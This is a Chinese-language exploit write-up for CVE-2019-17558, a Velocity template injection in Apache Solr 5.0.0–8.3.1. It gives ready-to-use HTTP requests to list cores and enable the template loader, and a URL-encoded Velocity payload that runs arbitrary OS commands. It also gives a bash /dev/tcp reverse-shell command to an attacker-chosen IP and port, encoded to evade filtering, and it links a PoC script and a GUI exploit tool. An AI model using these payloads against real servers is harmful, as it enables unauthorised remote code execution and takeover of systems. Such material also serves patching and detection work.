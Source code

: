## 漏洞概述

攻击者通过未授权访问solr服务器，可以注入自定义模板，通过Velocity模板语言执行任意命令

发送特定的数据包开启 `params.resource.loader.enabled`，然后get访问接口执行命令

## 影响范围

```http
5.0.0 ~ 8.3.1版本
```

## POC&EXP

```bash
python CVE-2019-17558.py
```

图形化工具：https://github.com/SDNDTeam/CVE-2019-17558_Solr_Vul_Tool

## 漏洞利用

1、默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模板

先通过如下API获取所有的核心：

```http
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

2、通过如下请求开启`params.resource.loader.enabled`，其中API路径包含刚才获取的core名称

```http
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

3、之后，注入Velocity模板即可执行任意命令

```http
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

4、反弹hell

因为部分命令会被过滤导致返回 Error 500 ，所以反弹shell需要用另外的反弹shell方法

```
POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1

POC需要Urlencoding进行编码才能绕过
POC ： %2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261
```

## 漏洞分析

https://xz.aliyun.com/t/6700#toc-4